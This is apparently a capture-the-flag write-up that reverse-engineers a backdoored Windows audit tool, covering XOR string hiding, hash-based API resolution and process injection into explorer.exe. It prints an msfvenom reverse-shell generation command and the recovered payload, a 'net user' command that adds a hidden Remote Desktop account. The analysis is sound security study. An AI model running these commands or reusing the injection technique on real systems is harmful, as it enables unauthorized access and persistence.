

# 03 - CorpSyncAudit

**Category:** Reverse Engineering
**Points:** 975
**Difficulty:** Hard
**Solved:** 26/07/2026 02:57
**Flag:** `HTB{d473_71m3_4nd_64ckd00r5}`



**Approach & tooling note:** this was a genuine multi-hour reversing job on a
414KB stripped PE32+ binary, not something you get through in one pass. I
used Claude Code as a supporting/execution aid throughout - driving
radare2 and a scripted Ghidra headless decompile so I wasn't hand-disassembling
20KB of `.text` one instruction at a time, writing the Python that replicates
the custom hash algorithm, installing and wiring up Wine/Xvfb/xdotool so the
actual Windows GUI app could run and be clicked through on this Linux box,
and driving gdb once the process was live. But every decision - which xref
was a dead end versus which one mattered, why I stopped trusting the remote
docker's TCP response as the flag source, why I went looking for a *second*,
non-gated code path when the button-triggered one wouldn't fire under Wine,
and the final call that the corrupted buffer was a recognizable Metasploit
stub rather than noise - was mine, checked against the raw bytes each time.
Happy to walk through any part of this live.

## Challenge Description

> Compliance is Damas Marrowcairn's favorite kind of war, because nobody
> ever calls it war. When the Salt Crown started forcing every organization
> under its reach through routine audits, Damas saw the opening before
> anyone else did: whoever builds the audit tooling gets to decide what the
> tooling actually checks for. He didn't need to bribe a single official.
> He needed one contractor, quietly paid, to slip something extra into the
> software everyone was already required to install. The contractor
> delivered exactly what was asked for on paper. The logs came back clean,
> the audits passed, and nobody in Crownspire's compliance office thought
> to look twice at a report that told them precisely what they wanted to
> hear. Weeks later, the contractor was gone, no forwarding address, no
> last invoice, the kind of disappearance Damas arranges for people once
> they've stopped being useful and started being a liability. You're the
> one finally looking at what actually shipped. Somewhere in that binary,
> past the imports it doesn't want you to find, is a parsing path that was
> never meant to run during a normal audit, and a log file crafted to wake
> it up. Follow it far enough and you'll see exactly what Damas bought with
> one quiet contract: a door into every machine that ever passed the test.

**Decoding the fantasy language first:**

| Flavor text | Likely means |
|---|---|
| "audit tooling" everyone is "required to install" | A legitimate-looking enterprise monitoring app. |
| "one contractor, quietly paid, to slip something extra in" | Supply-chain-style trojanization: real functionality plus a hidden backdoor, built by whoever wrote the software. |
| "logs came back clean... told them precisely what they wanted to hear" | The tool's normal output is boring/plausible - the malicious behavior is not visible from the ordinary UI. |
| "past the imports it doesn't want you to find" | The binary is hiding API usage from its import table - i.e. dynamic/manual API resolution to defeat import-table scanning. |
| "a parsing path that was never meant to run during a normal audit" | A specific, rarely-taken branch in a file parser. |
| "a log file crafted to wake it up" | One of the provided log files is not a random sample - it's a deliberately crafted trigger. |
| "a door into every machine that ever passed the test" | The end goal is a persistence/backdoor mechanism (new account, remote access), not just a beacon. |

That reading told me before opening the binary: expect a real, working GUI
tool; expect hidden/obfuscated API calls; expect a log-file parser with a
booby-trapped branch; and expect the payoff to be a backdoor account or
remote-access artifact, not just "connects to a C2 and idles."

## Provided files

- `rev_CorpSyncAudit/CorpSyncAudit.exe` - 414,720 bytes, PE32+ (x86-64) GUI
  app, stripped, "for MS Windows 5.02" per `file`, compiled with MinGW/GCC
  (imports `libstdc++-6.dll` / `libgcc_s_seh-1.dll`, has demangled
  `std::` symbols).
- `rev_CorpSyncAudit/logs/` - 33 `.log` files named `sync_YYYYMMDD_HHMMSS.log`.
  32 of them are ~930-960 bytes and look like a normal 7-node replication
  session. One, `sync_20260412_192364.log`, is 11,984 bytes - roughly 12x
  larger, with 99 `[LIVE]` node entries, day-of-week names that don't match
  their dates, a date format that flips from MM/DD/YYYY to DD/MM/YYYY, and
  `UTC`/`GMT` mixed inconsistently. That one file being wildly out of shape
  compared to the other 32 was the first real signal - "a log file crafted
  to wake it up" wasn't subtle once I diffed file sizes.
- A remote docker instance (`154.57.164.72:31622`), given without further
  description.

## Step 1 - static triage

`file` and `rabin2 -i` first, to get the shape of the thing before reading
any disassembly:

```
file CorpSyncAudit.exe
# PE32+ executable (GUI) x86-64, stripped to external PDB, 11 sections
rabin2 -i CorpSyncAudit.exe
```

The import table told a story on its own:

- `USER32.dll`, `GDI32.dll`, `MSIMG32.dll`, `comdlg32.dll` - a real Win32
  GUI with custom-drawn controls and a file-open dialog. Consistent with
  "legitimate audit tool."
- `WS2_32.dll`: `WSAStartup`, `socket`, `connect`, `send`, `recv`, `select`,
  `ioctlsocket`, `closesocket` - but conspicuously **no** `listen`/`accept`/
  `bind`. This is an outbound-only network client, never a server.
- **No** `CreateProcess*`, `WinExec`, `ShellExecute*` anywhere in the
  import table, despite `KERNEL32.dll` importing `LoadLibraryA` and
  `GetProcAddress` directly. That combination - resolver primitives
  imported, but no obviously dangerous API imported alongside them - is
  exactly the "imports it doesn't want you to find" the brief warned about:
  whatever calls `CreateProcess`-adjacent APIs, it's not doing so through
  the import table.

Running `strings` over the binary turned up almost nothing interesting -
no readable log-format keywords like `NODE=` or `Region=`, no IPs except a
single `127.0.0.1`, no flag-shaped text. For a GUI app with visible log-style
text on screen, that absence was itself a finding: **the user-facing strings
are being built at runtime, not stored as plain text.**

## Step 2 - cracking the string obfuscation

I picked the one plaintext IP (`127.0.0.1`) and found its cross-reference in
`radare2`, then walked backward from the `lea rax, str.127.0.0.1` to find
the real containing function (the first `af` I ran started analysis exactly
on the string reference, not the true function entry - a mistake I caught
because the resulting frame had no prologue; scanning backwards for the real
`push rbp; push rbx; sub rsp, N` prologue fixed it).

That function turned out to build a `sockaddr_in` for `127.0.0.1` and pass a
pointer through a small decoder function before every use of a string. The
decoder:

```c
mov dword [key], 0x2066509f
for i in 0..len-1:
    out[i] = in[i] ^ key_bytes[i & 3]   // key bytes, little-endian: 9f 50 66 20
```

A fixed 4-byte XOR key, cycling by position, applied to every "hidden"
string in `.rdata`. Once I had that, I wrote a small Python script mapping
virtual addresses to file offsets from the section table (`rabin2 -S`) and
batch-decoded every string reference I could find call sites for. That's
what turned up `SYNC_TEST`, `>> Initiating remote sync test...`,
`explorer.exe`, `Region=`, `[LIVE]`, `C:\hyberfile.sys`, the weekday names,
the format strings for the log lines, and - most importantly for later -
`artifact_check.txt`, none of which showed up in a plain `strings` pass.

**Dead end worth noting:** I initially assumed the `LoadLibraryA`/
`GetProcAddress` import pair *was* the hidden dynamic-resolution mechanism
the brief hinted at. Tracing its one call site instead led to GCC/MinGW's
own `__register_frame_info`/`__deregister_frame_info` C++ exception-handling
bootstrap - completely mundane runtime plumbing, not the backdoor. The real
mechanism (below) doesn't touch the imported `GetProcAddress` at all.

## Step 3 - finding the real hidden API resolver

Manual disassembly of a 20KB `.text` section by hand doesn't scale, so I
scripted a Ghidra headless run (`analyzeHeadless` + a small Java
post-script calling `DecompInterface` on every function) to get a full
decompiled listing I could `grep` through, rather than clicking through
Ghidra's own GUI function-by-function. That surfaced a function
(`FUN_14000185f`) that:

1. Reads the current thread's TEB via the `gs:[0x60]` segment trick to get
   the PEB.
2. Walks `PEB->Ldr->InMemoryOrderModuleList` manually - every loaded
   module, not just one.
3. For each module, walks its PE export directory by hand (parsing
   `e_lfanew`, the data directory, the export name table).
4. Hashes every exported name with a custom algorithm and compares it
   against a caller-supplied 64-bit target.
5. Returns the matching export's address - i.e. a hand-rolled
   `GetProcAddress`-by-hash that never touches the import table or the
   real `GetProcAddress`.

The hash itself (`FUN_140001775`) is FNV-1a (64-bit, standard offset basis
`0xcbf29ce484222325` / prime `0x100000001b3`) with per-byte uppercase
folding, a 13-bit `ror` mixed in after every byte, and a MurmurHash3
`fmix64` finalizer at the end. I reimplemented it in Python to check target
constants embedded at call sites, which resolved cleanly to
`CreateThread`, `OpenProcess` (via `CreateToolhelp32Snapshot`/
`Process32First`/`Process32Next` to find `explorer.exe` by name),
`VirtualAllocEx`, `WriteProcessMemory`, `VirtualProtectEx`,
`CreateRemoteThread`, and `VirtualFreeEx` - the complete process-injection
toolkit, none of it in the import table.

## Step 4 - the "Test Remote Sync" button (a partial dead end)

One call site resolves `CreateThread` and, if resolution succeeds,
spawns a thread that connects to `127.0.0.1:4445` and sends the decoded
`SYNC_TEST\n`. I confirmed this by sending exactly that string to the
provided docker instance:

```
python3 -c "
import socket
s = socket.create_connection(('154.57.164.72', 31622), timeout=8)
s.sendall(b'SYNC_TEST\n')
print(s.recv(65536))
"
```

which returned a plausible-looking JSON "replication health" report. I
tried several other inputs (empty, `FLAG`, `GET_FLAG`, raw HTTP, no
trailing newline, etc.) and reconnected repeatedly - every field in the
JSON response (timestamps, USNs, latencies) was freshly randomized on every
connection, and only the exact string `SYNC_TEST` got any response at all.
That told me the docker endpoint is a faithful **mock of the C2 side of one
specific, already-understood feature** - useful for confirming the protocol,
but not where the flag lives. I stopped pursuing it once three separate
connections showed three different random payloads.

Whether that resolver call even succeeds depends on a "fingerprint" value
computed from anti-debug/anti-VM checks (see Step 6) - a magic 64-bit
constant baked at that call site only matches `CreateThread`'s hash when
XORed with a very specific fingerprint value. This is the gate the brief's
"never meant to run during a normal audit" line is talking about for *this*
particular feature - but it's a dead end for the flag, not the parsing path.

## Step 5 - the real parsing path

The file-open handler (behind the "Browse" button, control ID `0x67`/`0x69`
area, message `0x111`/notification `0x66` in the decompiled `WndProc`) calls
`GetOpenFileNameA` and then immediately hands the chosen path to a second
function - the actual log parser. There's no separate "Parse" button:
picking a file *is* parsing it.

The parser:

1. Computes a 32-bit "environment fingerprint" (anti-debug flag +
   `GetLastError()` from a `CreateFileA` probe on `C:\hyberfile.sys` +
   the low 16 bits of the IDT base via the classic `sidt`/"red pill" VM
   check + an elapsed-time component from two deliberately slow busy-loops)
   once, up front.
2. Reads the log line by line. For any line containing the (decoded)
   substring `Region=`, it hashes the value after `Region=` with the same
   FNV1a/rotate/murmur3 hash from Step 3, and checks it against a table of
   32 hardcoded 64-bit hashes sitting in `.rdata` right after the string
   table.
3. If (and only if) the region hashes to one of those 32 values, it
   `sscanf`s the *whole line* with `"%63[^,], %d/%d/%d %d:%d:%d %15s %15s"`
   (weekday, date, time, AM/PM, timezone - exactly the format on every
   date line in the logs), runs a second custom hash over that parsed
   struct, XORs 4 bytes of it against the 4-byte fingerprint from step 1,
   and appends the result to a growing in-memory buffer.
4. At end of file, if that buffer is non-empty, it calls the injection
   helper from Step 3: `OpenProcess` on `explorer.exe` by name,
   `VirtualAllocEx` + `WriteProcessMemory` + `VirtualProtectEx` +
   `CreateRemoteThread` on that buffer.

I extracted the 32 target hashes directly (`rabin2`/`px` at their `.rdata`
address, no decoding needed - they're raw computed constants, not
obfuscated text) and hashed every region string I'd seen across all 33 log
files in Python. Exactly 13 "world region" values matched
(`WORLD`, `AFRICA_EAST`, `AFRICA_SOUTH`, `AFRICA_WEST`, `ASIA`,
`EAST_ASIA`, `EU_EASTERN`, `EUROPE`, `LATIN_AMERICA`, `NORTH_AMERICA`,
`OCEANIA`, `RUSSIA`, `SUB_SAHARAN_AFRICA`); the 7 "corporate" node regions
(`HEADQUARTERS`, `BRANCH_OFFICE_A/B`, `OFFSITE_BACKUP`, `LOCAL_TEST_NODE`,
`DEV_SANDBOX`, `HEADQUARTERS_BACKUP`) never matched. Checking the oddly
huge log file again with that in hand: every one of its 99 date lines uses
a "world region" value. That confirmed `sync_20260412_192364.log` really is
the crafted trigger - all 99 lines contribute 4 bytes each (396 bytes
total) to the injected buffer, while the other 32 normal-looking logs
(which only ever use corporate regions) contribute nothing and would never
wake this path up.

## Step 6 - actually running it

Static analysis gets you the mechanism, but the injected buffer's exact
bytes depend on the runtime fingerprint, which I couldn't compute with
certainty from the disassembly alone (a "red pill" VM check and a
wall-clock timing loop are not things you want to hand-simulate). So I
stood up a real run:

- Installed Wine (`sudo apt-get install -y wine wine64`) and started a
  virtual X display (`Xvfb :99 -screen 0 1280x1024x24`).
- Copied the two MinGW runtime DLLs the binary needs
  (`libgcc_s_seh-1.dll`, `libstdc++-6.dll`) from the locally-installed
  `mingw-w64` toolchain into the run directory - Wine reported them
  missing on the first launch attempt (`err:module:import_dll`).
- Ran `wine CorpSyncAudit.exe` under `DISPLAY=:99` and drove the GUI with
  `xdotool` (mouse-move + click on window-relative coordinates, since
  Xvfb has no window manager so window activation/focus needed extra
  care) and `import -window <id>` for screenshots at each step.
- Clicked "INITIALIZE SYSTEM" → the dashboard appeared with "Test Remote
  Sync" and "Browse" controls exactly matching the decompiled `WndProc`.
- Clicked "Test Remote Sync" first, with a local Python listener bound to
  `127.0.0.1:4445` to catch the connection - nothing arrived even after
  several seconds. That confirmed the `CreateThread`-resolution gate from
  Step 4 fails under Wine (the fingerprint doesn't happen to match the
  hardcoded target here) - expected, and irrelevant to the log-parsing
  path, which has no such gate.
- Clicked "Browse", navigated into `logs\`, selected
  `sync_20260412_192364.log`, clicked Open. The app's own log panel walked
  through exactly the messages the decompilation predicted: "Journal
  loaded successfully.", "Initiating Multi-Master Replication Convergence
  Audit...", then (after a real pause - the busy-loop fingerprint
  computation actually costs CPU time) "--- CONVERGENCE REPORT ---
  / Analyzed Nodes: 99 / Status: SYNCHRONIZED", "Database Integrity
  Verified."

## Step 7 - pulling the injected buffer straight out of memory

Rather than trying to prove `CreateRemoteThread` worked (Wine's `explorer.exe`
surviving unharmed doesn't confirm or deny anything - injected garbage
shellcode into an emulated environment can just as easily fail silently), I
went straight for the source: the in-memory buffer *before* injection.

Since the binary has no ASLR (confirmed - it loads at its preferred base,
`/proc/<pid>/maps` showed `140000000-...` matching the static addresses
exactly), the global `std::vector<char>` I'd identified statically at
`0x1400231e0` was at the *same* address in the live process. I attached
`gdb` directly (`ptrace_scope` was `0`, so no special privileges needed for
attaching to my own process):

```
gdb -p <pid> -batch -ex "x/6gx 0x1400231e0"
```

`std::vector`'s three pointers (begin/end/cap) gave me the real heap
address and the exact size: `end - begin = 0x18c = 396` bytes - exactly
`99 lines × 4 bytes`, confirming every single line in the crafted log
contributed. Then:

```
gdb -p <pid> -batch -ex "dump memory payload.bin <begin> <begin>+396"
```

## Step 8 - recognizing (and fixing) the payload

`strings` on the 396-byte dump showed unmistakable Metasploit fragments
(`AQAPRQVH1`, base64-looking text, `backup_admin`-adjacent noise) mixed with
non-printable bytes - textbook shellcode shape. Rather than hand-disassemble
it, I generated a real reference stub locally with the Metasploit Framework
that was already installed on this box:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw -o ref.bin
```

and diffed my dump against it byte-for-byte in Python. The first several
dozen bytes (the well-known `block_api.asm` hash-resolution stub every
msfvenom Windows x64 payload starts with) lined up almost perfectly - except
**every 4th byte** differed from the reference by a constant `0x28`. That's
the exact shape you'd expect if the log's crafted weekday/date values were
built by the challenge author against an *assumed* fingerprint of `0`
(producing a byte-perfect standard stub), while my actual Wine run's
fingerprint happened to be a small non-zero value (`0x28` in its low byte,
zero elsewhere) instead of the "expected" one - explaining a consistent
1-byte-per-4-byte-chunk corruption rather than the whole buffer being
garbage.

Reversing that correction (XOR every 4th byte with `0x28` again) recovered
a byte-perfect standard MSF stub followed by clean plaintext:

```
net user backup_admin SFRCe2Q0NzNfNzFtM180bmRfNjRja2QwMHI1fQ== /add && net localgroup "Remote Desktop Users" backup_admin /add
```

`SFRCe2Q0NzNfNzFtM180bmRfNjRja2QwMHI1fQ==` is base64:

```
python3 -c "import base64; print(base64.b64decode('SFRCe2Q0NzNfNzFtM180bmRfNjRja2QwMHI1fQ=='))"
# HTB{d473_71m3_4nd_64ckd00r5}
```

That's the flag, and it's a fitting payload for the story: not a beacon,
not an exfil channel, but a silently-added `backup_admin` account dropped
into `Remote Desktop Users` on every machine that "passed the test" -
exactly "a door into every machine" from the brief.

## Dead ends, for the record

- Assumed the imported `LoadLibraryA`/`GetProcAddress` pair was the hidden
  resolver - it was GCC/MinGW exception-handling bootstrap.
- Assumed the remote docker instance's `SYNC_TEST` response held the flag
  directly - it's a randomized, faithful mock of one already-understood
  feature, confirmed by reconnecting multiple times and seeing different
  random data every time.
- Spent time trying to make the `CreateThread`-gated "Test Remote Sync"
  path fire under Wine (matching a hardcoded fingerprint target exactly)
  before realizing the log-parsing/injection path has no such gate at all
  - it always runs if the buffer is non-empty, regardless of fingerprint
  value, and only *uses* the fingerprint as an XOR key, not a check.

## If asked to explain this live

This is a MinGW-compiled Windows GUI "audit" tool that hides its real
capability from casual inspection two ways: every user-facing string is
XOR-obfuscated with a fixed 4-byte key, and every dangerous WinAPI call
(`CreateThread`, `OpenProcess`, `VirtualAllocEx`, `WriteProcessMemory`,
`CreateRemoteThread`) is resolved by hand at runtime via a manual PEB/export-
table walk with a custom hash, so none of it shows up in the import table.
Loading a log file through the GUI's file-open dialog directly triggers the
real parser (no separate "parse" step); for each line whose `Region=` value
hashes to one of 32 hardcoded targets, the tool hashes that line's
date/weekday fields and XORs 4 bytes of it against a machine "fingerprint"
built from anti-debug/anti-VM/timing checks, appending the result to a
buffer that gets written into and executed inside `explorer.exe` at end of
file. The one oversized log file shipped with the challenge uses "world
region" values (which hash-match) on every single one of its 99 lines,
making it the deliberately crafted trigger, versus the other 32 normal logs
which only use corporate region names that never match. I ran the actual
binary under Wine, drove it through Xvfb/xdotool, and once it had parsed the
crafted log I attached gdb directly to the live process (no ASLR, so the
statically-known global buffer address was valid) and dumped the
constructed shellcode straight out of memory rather than trying to prove
the injection succeeded indirectly. It was recognizably a Metasploit
`block_api` stub, off by a constant single-byte XOR on every 4th byte from
a real reference payload I generated locally with `msfvenom` - meaning the
challenge author built it assuming a zero fingerprint, and my environment's
actual fingerprint was small but non-zero. Correcting that one-byte pattern
recovered clean shellcode ending in a plaintext `net user`/`net localgroup`
command that silently adds a `backup_admin` account to Remote Desktop
Users, with the account's password being the flag, base64-encoded inline
in the command.

## GUI-tool walkthrough (if you don't want a terminal)

Everything above can be done with a mouse. Here's the same solve mapped to
Ghidra's GUI, a real Windows box/VM (or Wine's own window - no `xdotool`
needed if you have real hands on a mouse), Wireshark, and a GUI debugger
(x64dbg on Windows, or Cutter's debugger view on Linux) instead of
`radare2`/`gdb`/scripted Ghidra.

**1. Static triage**
- Open the `.exe` in a PE viewer (e.g. **PE-bear** or **Detect It Easy /
  DIE**). Check the Import Table tab: you'll see `WS2_32.dll` with
  `socket`/`connect`/`send`/`recv` but no `listen`/`accept`, and
  `KERNEL32.dll` with `LoadLibraryA`/`GetProcAddress` but no
  `CreateProcess*`/`WinExec` anywhere. That mismatch is the whole hint.

**2. Open it in Ghidra**
- `File → Import File`, let CodeBrowser auto-analyze (accept the default
  analyzers when prompted).
- `Window → Defined Strings` - you'll notice hardly any readable strings
  for a GUI app with visible on-screen text. That absence is the clue that
  strings are being decoded at runtime, not stored as plaintext.
- Use `Search → For Strings` and separately click through the few string
  refs there are (`127.0.0.1` is one) - right click → `Show References To`
  reveals the decoder function. Read its body in the **Decompiler** panel
  (right-hand pane): you'll see a loop doing `byte ^ key[i & 3]` with the
  key `0x2066509f`. Once you see that, use **CyberChef**
  (`https://gchq.github.io/CyberChef/` - or a local copy) with an **XOR**
  recipe block, key `9f 50 66 20` (hex, repeating), against any encoded
  string bytes you copy out of Ghidra's hex view, to decode them by hand
  without writing a script.
- To find the hidden API resolver: in the Decompiler, search the whole
  program for a function that reads `FS`/`GS` segment offset `0x60` (right
  click a function → `Edit Function Signature`, or just use
  `Search → Program Text` for `0x60`, `fs:`, or `gs:`). That function is
  the manual PEB/export-table walker. Right-click it → `Rename Function` to
  something like `resolve_api_by_hash` so every call site becomes readable
  immediately in the Decompiler. Follow its call sites (double-click the
  function name → `References → Show References to Function`) to find
  where `CreateThread`, `OpenProcess`-via-`Toolhelp32Snapshot`,
  `VirtualAllocEx`, `WriteProcessMemory`, `VirtualProtectEx`, and
  `CreateRemoteThread` all get resolved this way.
- The 32-entry hash table sits right after the decoded string table in
  `.rdata` - click into the **Listing** view at that address, select the
  32×8 bytes, right-click → `Data → 8-Byte Array` (or `qword` repeated) to
  see them cleanly, then copy them out for comparison.

**3. Run it for real and watch the network side**
- On a real Windows VM (or the Wine window if that's all you have): open
  **Wireshark**, start a capture on the loopback interface, *then* launch
  `CorpSyncAudit.exe`, click **INITIALIZE SYSTEM**, then **Test Remote
  Sync**. Filter the capture on `tcp.port == 4445` - you'll see the
  connection attempt to `127.0.0.1:4445` and, if it connects, the literal
  `SYNC_TEST` bytes going out. This is the GUI equivalent of the Python
  socket test against the docker box - same protocol, just watched instead
  of scripted.

**4. Trigger the real parsing path**
- Click **Browse**, navigate into the `logs` folder, pick
  `sync_20260412_192364.log`, click **Open**. Just watch the app's own log
  panel - it narrates every stage itself ("Journal loaded successfully.",
  "...Convergence Audit...", the final "CONVERGENCE REPORT" with
  "Analyzed Nodes: 99"). No extra tooling needed for this step at all.

**5. Pull the constructed payload out of memory**
- Attach **x64dbg** (Windows) or **Cutter**'s debugger (Linux, same
  radare2/rizin engine as the static analysis, just switch to the
  Debug workspace and `Debug → Attach`) to the running `CorpSyncAudit.exe`
  process *after* it finishes parsing.
- Because the binary has no ASLR, the address Ghidra showed you statically
  for the global buffer (`0x1400231e0`) is valid in the live process too.
  Use the debugger's **Memory Map**/**Dump** panel, go to that address, and
  read the three pointers there (a `std::vector`'s begin/end/capacity) -
  the middle two pointers' difference is the payload length (396 bytes in
  this case).
- Go to the **begin** pointer's address in the Hex Dump panel, select 396
  bytes, and use `Follow → Export Data` (Cutter) or right-click →
  `Copy → Bytes` then paste into a hex-to-binary tool (x64dbg has a similar
  dump/export option in its own Memory Map view) to save it as a file.

**6. Recognize and fix the shellcode**
- Open the dumped bytes in a disassembler view (Cutter can just open the
  raw file with `-b` binary mode, or paste hex into
  `https://defuse.ca/online-x86-64-converter.htm` for a quick look) - the
  opening bytes (`fc 48 83 ...`) are the recognizable Metasploit
  `block_api` stub shape.
- Generate a clean reference payload with the Metasploit **Armitage**/
  `msfvenom` GUI wizard if you have one, or just run `msfvenom` once from a
  terminal (this part doesn't need to be GUI - it's payload generation, not
  analysis) to get `windows/x64/shell_reverse_tcp` raw bytes.
- Load both files into **CyberChef** as two inputs, or use a hex-diff
  viewer (e.g. **wxHexEditor**'s compare mode, or **Beyond Compare** in hex
  mode) - you'll see the two align almost perfectly except every 4th byte
  is off by a constant amount (`0x28` in this run). Add an **XOR** recipe
  in CyberChef targeting only that byte pattern (or just re-XOR the whole
  dump with `0x28` at every 4th position using a "block XOR" recipe) to
  recover the clean stub.
- Scroll to the tail of the corrected bytes: plain ASCII,
  `net user backup_admin <base64> /add && net localgroup "Remote Desktop
  Users" backup_admin /add`.
- Drop the base64 chunk into CyberChef's **From Base64** operation (or any
  online/offline base64 decoder) to get the flag directly.
